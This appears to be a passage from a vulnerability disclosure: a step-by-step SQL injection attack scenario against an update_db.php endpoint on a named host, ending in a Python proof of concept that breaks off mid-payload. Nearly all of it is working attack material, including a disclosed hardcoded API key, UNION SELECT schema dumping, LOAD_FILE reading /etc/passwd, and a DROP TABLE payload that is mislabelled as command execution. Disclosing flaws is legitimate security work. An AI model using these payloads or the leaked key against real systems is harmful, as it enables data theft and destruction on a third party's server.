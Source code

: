 ### Attack Scenario

**Step 1: Identify Injection Point**
```bash
# Normal request
curl -X POST http://ecoforces.com/update_db.php \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "api_key=tPmAT5Ab3j7F9&data=[{\"sensor_id\":\"TEST\",\"reading_value\":\"25.5\"}]"
```

**Step 2: Test for SQL Injection**
```json
{
  "api_key": "tPmAT5Ab3j7F9",
  "data": [{
    "sensor_id": "TEST' OR '1'='1",
    "reading_value": "25.5"
  }]
}
```

**Resulting SQL:**
```sql
INSERT INTO sensor_readings (sensor_id, reading_value) 
VALUES ('TEST' OR '1'='1', '25.5')
-- SQL syntax error indicates vulnerability
```

**Step 3: Data Extraction**
```json
{
  "sensor_id": "' UNION SELECT table_name, column_name FROM information_schema.columns WHERE '1'='1",
  "reading_value": "0"
}
```

**Step 4: Read Sensitive Files**
```json
{
  "sensor_id": "' UNION SELECT LOAD_FILE('/etc/passwd'), '1",
  "reading_value": "0"
}
```

**Step 5: Execute Commands (if MySQL runs as root)**
```json
{
  "sensor_id": "'; DROP TABLE sensor_readings; --",
  "reading_value": "0"
}
```

### Proof of Concept

```python
import requests
import json

API_URL = "http://ecoforces.com/update_db.php"
API_KEY = "tPmAT5Ab3j7F9"  # Hardcoded in firmware

# Payload to extract database schema
payload = {
    "api_key": API_KEY,
    "data": [{
        "sensor_id": "' UNION SELECT CONCAT(table_schema,'.',table_name), column_name FROM information_schema.columns WHERE '1'='1",
```